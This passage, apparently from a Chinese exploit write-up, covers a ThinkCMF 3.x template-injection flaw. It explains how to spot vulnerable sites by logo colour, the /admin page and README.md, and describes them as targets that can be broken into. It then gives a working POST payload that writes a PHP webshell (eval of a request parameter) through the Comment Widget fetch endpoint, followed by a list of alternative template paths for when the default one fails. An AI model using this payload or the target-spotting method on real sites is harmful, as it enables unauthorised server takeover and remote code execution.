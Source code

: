 所以我们也就多了一个任意文件上传漏洞

0x05 使用说明

前面说了，thinkcmf 并没有死，并且有3版本与5版本这里提供一些方法，帮助你们辨别哪一些是可以日的，那一些事不行的。

1，看logo 3的logo是黄色的例如下图

![](images/15893435044391.jpg)


2，在网站url 后面输入 admin

![](images/15893435112269.png)


如果页面是蓝色的表示是3的，可日穿之

3，查看 README.md

在网站url后面输入README.md

![](images/15893435190742.jpg)


另外还有一个说明，你在实际操作的过程中，可能会遇到他一直报这个错


```bash
url:http://thinkcmf.test/index.php?g=Comment&m=Widget&a=fetch
post:
templateFile=/../public/index
prefix=''
content=<php>file_put_contents('test.php','<?php eval($_REQUEST[11]);')</php>
```

![](images/15893435355774.jpg)


请放心这并不是说明漏洞不可使用，而是说，这个模版不存在，你可以换一个html即可


```bash
例如：
/../public/index
/../public/exception
/../data/index
/../data/runtime/index
/../plugins/Mobileverify/View/admin_index
/../plugins/Mobileverify/View/index
/../plugins/Mobileverify/View/widget
/../plugins/Demo/View/admin_index
/../plugins/Demo/View/index
/../plugins/Demo/View/widget
/../application/Install/View/Public/footer
/../application/Install/View/Public/head
/../application/Install/View/Public/header
/../application/Common/index
/../application/Portal/Lang/en-us/index
/../application/Api/Lang/en-us/index
/../application/Api/Lang/zh-cn/index
/../application/Comment/Lang/en-us/index
/../application/Comment/Lang/zh-cn/index
```
